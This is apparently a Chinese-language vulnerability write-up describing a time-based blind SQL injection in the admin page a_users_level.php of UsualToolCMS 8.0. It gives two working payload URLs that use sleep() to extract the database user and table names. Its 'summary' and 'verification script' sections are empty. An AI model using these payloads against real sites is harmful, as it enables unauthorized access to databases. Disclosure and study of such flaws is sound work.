





# UsualToolcms 8.0 后台盲注

> 原文：[https://www.zhihuifly.com/t/topic/3215](https://www.zhihuifly.com/t/topic/3215)

# UsualToolcms 8.0 后台盲注

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php第19行和第26行，id参数可控



从get处获取id参数，id存在无任何过滤，当postt id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS_INC.php第33行，将(',,",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a_users_level.php第19行id不是字符



### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```



时间盲注验证脚本



